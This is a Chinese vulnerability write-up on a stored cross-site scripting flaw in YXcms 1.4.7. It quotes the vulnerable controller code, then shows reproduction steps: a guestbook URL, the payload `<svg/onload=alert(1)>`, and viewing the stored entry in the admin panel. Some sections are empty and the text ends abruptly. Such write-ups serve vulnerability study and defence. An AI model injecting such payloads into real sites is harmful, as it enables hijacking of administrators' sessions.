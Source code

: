 YXcms 1.4.7 储存型xss
=====================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

    public function index()
    {
        $ename=in($_GET['col']);
        if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
        $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
        $path=$sortinfo['path'].','.$sortinfo['id'];
        $deep=$sortinfo['deep']+1;
        $this->col=$ename;
        switch ($sortinfo['type']) {
            case 1://文章
                $this->newslist($sortinfo,$path,$deep);
                break;
            case 2://图集
                $this->photolist($sortinfo,$path,$deep);
                break;
            case 3://单页
                $this->page($sortinfo,$path,$deep);
                break;
            case 4://应用

                break;
            case 5://自定义

                break;
            case 6://表单
                $this->extend($sortinfo,$path,$deep);
                break;
            default:
                throw new Exception('未知的栏目类型~', 404);
                break;
        }
    }

后台的文件源码protected/apps/admin/controller/extendfieldController.php

    public function mesedit()
    {
        $tableid=intval($_GET['tabid']);
        if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
        $id=intval($_GET['id']);//信息id
        if(empty($tableid) || empty($id) ) $this->error('参数错误~');
        $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
        if(empty($tableinfo)) $this->error('自定义表不存在~');
        if (!$this->isPost()) {
           $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
           $this->info=$info;
           $this->tableid=$tableid;
           $this->id=$id;
           $this->tableinfo=$tableinfo;
           $this->display();
        }else{
           for($i=1;$i<count($tableinfo);$i++){
            if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
              $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
            else
              $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
           }
           if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
           else $this->error('信息修改失败~');
         }
    }

中间没什么过滤

### 复现

    http://0-sec.org/index.php?r=default/column/index&col=guestbook

payload：

    <svg/onload=alert(1)>

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7储存型xss/media/rId26.png)

然后登陆后台，查看审核

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7储存型xss/media/rId27.png)

点击编辑

image
